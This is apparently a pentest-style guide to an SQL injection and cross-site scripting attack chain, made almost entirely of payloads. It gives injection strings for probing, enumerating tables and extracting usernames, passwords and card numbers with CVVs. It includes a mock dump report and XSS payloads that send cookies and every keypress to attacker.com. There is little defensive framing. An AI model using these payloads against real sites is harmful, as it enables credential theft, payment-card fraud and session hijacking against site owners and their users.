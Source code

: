 **SQL Injection Attack Chain:**

**Step 1: Detection**
```sql
-- Test for SQL injection vulnerability
https://target.com/product?id=1' OR '1'='1
https://target.com/product?id=1' AND '1'='2
https://target.com/product?id=1' ORDER BY 10--
```

**Step 2: Database Enumeration**
```sql
-- Determine database type
https://target.com/product?id=1' AND 1=1-- (MySQL)
https://target.com/product?id=1' AND 1=1;-- (SQL Server)

-- Extract table names
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables--

-- Extract column names
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='users'--
```

**Step 3: Data Exfiltration**
```sql
-- Extract user credentials
' UNION SELECT username,password,email FROM users--

-- Extract sensitive data
' UNION SELECT card_number,cvv,expiry FROM payments--
```

**Impact Demonstration:**
```
🚨 SQL INJECTION EXPLOIT SUCCESSFUL

Database: MySQL 8.0.28
Extracted: 10,000 user records
Data Includes:
- Usernames
- Hashed passwords (MD5 - weak!)
- Email addresses
- Phone numbers

Proof of Concept:
[Screenshot of database dump]

Risk: Critical - Full database compromise
```

**Cross-Site Scripting (XSS) Exploitation:**

**Reflected XSS:**
```html
<!-- Test payload -->
https://target.com/search?q=<script>alert('XSS')</script>

<!-- Session stealing payload -->
https://target.com/search?q=<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

<!-- Keylogger payload -->
<script>
document.addEventListener('keypress', (e) => {
  fetch('https://attacker.com/log?key=' + e.key)
})
</script>
```
